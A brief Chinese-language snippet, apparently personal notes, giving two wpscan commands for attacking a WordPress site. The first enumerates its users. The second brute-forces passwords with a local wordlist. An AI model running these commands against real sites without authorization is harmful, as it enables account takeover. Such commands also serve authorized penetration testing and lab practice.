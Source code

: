#先使用wpscan来进行扫描网站，再用字典来进行爆破  
wpscan --url 地址/wordpress --enumerate u    

#后半段基本上就所使用字典来进行破解。  
wpscan --url 地址/wordpress --wordlist /root/1.txt  